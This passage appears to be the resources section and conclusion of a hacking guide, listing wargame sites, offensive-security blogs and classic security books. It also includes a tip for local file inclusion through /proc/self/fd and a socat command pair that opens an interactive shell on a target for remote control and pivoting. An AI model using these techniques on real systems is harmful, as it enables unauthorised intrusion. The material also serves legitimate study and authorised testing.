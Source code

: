 
# --[ 9 ]-- Resources

Links:

* https://www.pentesterlab.com/exercises/
* http://overthewire.org/wargames/
* http://www.hackthissite.org/
* http://smashthestack.org/
* http://www.win.tue.nl/~aeb/linux/hh/hh.html
* http://www.phrack.com/
* http://pen-testing.sans.org/blog/2012/04...eter-pivot
* http://www.offensive-security.com/metasp...s_The_Hash
* https://securusglobal.com/community/2013...edentials/
* https://www.netspi.com/blog/entryid/140/...on-testers
  (all his other blog posts are great too)
* https://www.corelan.be/ (start at Exploit writing tutorial part 1)
* http://websec.wordpress.com/2010/02/22/e...-overview/
  One trick it leaves out is that on most systems the apache access log is
  readable only by root, but you can still include from /proc/self/fd/10 or
  whatever fd apache opened it as. It would also be more useful if it mentioned
  what versions of php the various tricks were fixed in.
* http://www.dest-unreach.org/socat/
  Get usable reverse shells with a statically linked copy of socat to drop on
  your target and:
  target$ socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp-listen:PORTNUM
  host$ socat file:`tty`,raw,echo=0 tcp-connect:localhost:PORTNUM
  It's also useful for setting up weird pivots and all kinds of other stuff.

Books:

* The Web Application Hacker's Handbook
* Hacking: The Art of Exploitation
* The Database Hacker's Handbook
* The Art of Software Security Assessment
* A Bug Hunter's Diary
* Underground: Tales of Hacking, Madness, and Obsession on the Electronic Frontier
* TCP/IP Illustrated

# Conclusion

Aside from the hacking specific stuff almost anything useful to a system
administrator for setting up and administering networks will also be useful for
exploring them. This includes familiarity with the windows command prompt and unix
shell, basic scripting skills, knowledge of ldap, kerberos, active directory,
networking, etc.

